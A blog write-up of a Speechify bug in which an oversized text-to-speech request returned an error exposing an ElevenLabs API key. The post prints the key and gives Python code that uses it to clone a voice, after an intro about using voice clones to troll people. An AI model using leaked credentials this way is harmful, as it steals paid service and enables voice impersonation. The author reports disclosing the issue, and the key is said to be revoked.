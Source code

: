 ```yaml
---
title: Speechify voice cloning API key leakage
layout: post
---
```


![speechify-logo](/assets/speechify-logo.png)

# Introduction
Yesterday, I came across a video on Youtube of a guy using an AI Voice cloning service to impersonate and troll people on the popular GTA5 modification framework known as FiveM.

It was pretty funny to watch because he was doing this on roleplay servers and, as you may already know, there are rules to follow and people tend to get into arguments frequently. 

- [EDITING clips with Ai to get an ADMIN FIRED! @parkerrYT](https://youtu.be/yvLb6gkPYgw?si=zLY_ITZl_RtUQZnT)

Put simply, he would record a sample of the voice to clone and use the ElevenLabs voice cloning service to make them say things they never meant to, of course revealing in the end what really happened.

# ElevenLabs AI Voice cloning
Next thing you know, I am looking at the plans that ElevenLabs offers, I wanted to play with it a little and see how accurate it really is but didn't feel like spending the 22$ (at the time), and started looking for an alternative.

![elevenlabs-prices](/assets/elevenlabs-prices.png)

# Speechify AI Voice cloning
The alternative I was looking for turned out to be Speechify as they offer a free trial version of the service, the only issue with it is that you can't change the text without upgrading your plan, making it look useless at first.

![speechify-interface](/assets/speechify-interface.png)

After playing a little with the text I noticed that the only character you are allowed to add are spaces, adding any other character would result in an annoying `upgrade for full access` message.

![annoying-message](/assets/annoying-message.png)

The next thing I tried was adding a lot of spaces and seeing how the endpoint would reply, after the text reaches the size of 5500 characters the endpoint replies with code 500 and greets us with the following data.

```
HTTP/2 500 Internal Server Error
Cache-Control: public, max-age=0, must-revalidate
Content-Type: application/json; charset=utf-8
Date: Tue, 05 Dec 2023 22:23:27 GMT
Etag: "qexsok88sj5k7"
Server: Vercel
Strict-Transport-Security: max-age=63072000
X-Matched-Path: /api/tts/clone
X-Vercel-Cache: MISS
X-Vercel-Id: fra1::iad1::jwvvj-1701815001593-c964271a4111
Content-Length: 7207

{
  "message": "Request failed with status code 400",
  "name": "AxiosError",
  "stack": "at ClientRequest.emit (node:domain:489:12)\n at HTTPParser...",
  "config": {
    "headers": {
      "Accept": "application/json, text/plain, */*",
      "Content-Type": "application/json",
      "xi-api-key": "a67a36e2011cf31e21343adb66f46ca2",
      "User-Agent": "axios/1.4.0",
      "Content-Length": "5611",
      "Accept-Encoding": "gzip, compress, deflate, br"
    },
    "params": {
      "optimize_streaming_latency": 3
    },
    "responseType": "stream",
    "method": "post",
    "url":"https://api.elevenlabs.io/v1/text-to-speech/voice_id"
  },
  "code": "ERR_BAD_REQUEST",
  "status": 400
}
```

Great! an ElevenLabs API key seems to have been leaked, now all that's left to do is read the ElevenLabs documentation and use the api key to access the voice cloning service using their python library.

```python
from elevenlabs import clone, generate, play
from elevenlabs import set_api_key

api_key = 'a67a36e2011cf31e21343adb66f46ca2'
set_api_key(api_key)

voice = clone(
  name="nekka",
  files=["./sample.mp3"],
)

audio = generate(text="hi! how you doing?",
                 voice=voice, 
                 model='eleven_multilingual_v2')

audio_file = open('output.mp3', 'wb')
audio_file.write(audio)
audio_file.close()
```

After running the script we get our `output.mp3` file containing the result!

![output-file](/assets/voice-clone-files.png)

# Conclusion
After finding out about this, I sent them an email however I never received a reply. However, as of now, it appears that the leakage has been resolved, and the API key has been invalidated.